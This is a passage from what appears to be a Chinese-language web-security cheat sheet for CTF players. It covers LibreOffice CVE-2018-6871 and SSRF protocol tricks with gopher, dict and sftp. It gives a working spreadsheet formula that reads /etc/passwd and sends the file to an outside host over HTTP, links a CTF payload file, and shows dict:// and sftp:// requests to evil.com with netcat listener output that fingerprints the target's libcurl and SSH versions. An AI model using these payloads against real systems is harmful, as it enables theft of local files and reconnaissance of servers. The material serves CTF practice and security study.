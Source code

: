 ### Libreoffice CVE-2018-6871
- 可以使用`WEBSERVICE`讀本地檔案，e.g.`/etc/passwd`
- 讀出來可以用http往外傳
    - `=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;))`
    - e.g. DCTF 2018 final, FBCTF 2019
- Example Payload: [Link](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)


## 遠程利用
各個軟體支援的 protocol
![](https://i.imgur.com/XIqB3zX.png)
各個 protocol 可以模擬的 protocol
![](https://i.imgur.com/I6Y77r9.png)

### Protocol 們的使用方法
#### Gopher Protocol
* 模擬其他 Protocol
    ![](https://i.imgur.com/xQw7C19.png)
    - `%0d%0a` => `\r\n`
    - Padding 可以是任意

#### dict Protocol
* fingerprint
    往回送 Request ，會出現目標主機使用的軟體，z.B.libcurl 7.54.0
```
dict://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5566 [tcp/*] accepted (family 2, sport 40790)
CLIENT libcurl 7.35.0

-> libcurl version
```
* Redis

#### sftp Protocol
* fingerprint
```
sftp://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5278 [tcp/*] accepted (family 2, sport 40810)
SSH-2.0-libssh2_1.4.2

-> ssh version
```
